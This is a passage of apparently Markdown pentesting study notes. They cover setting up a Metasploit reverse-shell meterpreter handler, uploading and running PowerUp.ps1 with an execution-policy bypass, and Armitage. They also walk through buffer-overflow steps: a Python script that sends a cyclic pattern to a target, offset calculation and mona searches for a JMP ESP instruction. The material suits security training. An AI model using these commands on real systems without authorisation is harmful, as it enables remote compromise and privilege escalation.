 > Init a handler
- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST IP`
- `set LPORT port`
- `exploit`

> Upload a powerup (powersploit)
- meterpreter > `upload /root/PowerSploit/PowerUp.ps1`
- meterpreter > `shell`
- `powershell -ExecutionPolicy Bypass -Command ". .\\PowerUp.ps1;Invoke-AllChecks"`

> Exploit VNC vulnerability
- `run vnc`


## <span style="color: #3498db; font-size: 0.8em;">  Gain Access to a Remote System</span>

>  Armitage (Linux)
- `service postgresql start`
- `armitage`

> Ninja Jonin

 > Fatrat (crear reverse)


## <span style="color: #3498db; font-size: 0.8em;">  Buffer Overflow Attack to Gain Access to a Remote System - Reversing</span>

>  Immunity debugger
- File > atach > select a service
- conection with netcat (nc -nv IP port)
- Generate Unique Pattern
	`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l number`
- Create a exploit:
	`#!/usr/bin/python_
	import sys, socket
	offset = “Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1A[...]”
	try:
	      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	      s.connect((‘IP’,port))
	      s.send((‘string’ + offset))
	      s.close()
	except:
		print “Error connecting to server”
		sys.exit()`
- Calculate the Offset (maximum number of characters the buffer can store):
	`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l number -q EIP-value`
- !mona modules
- Fetch instruction in a function:
	`/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
	`nasm> JMP ESP`
	`!mona find -s "\\xff\\xe4" -m function`
	`!mona find -s "instruction" -m function`
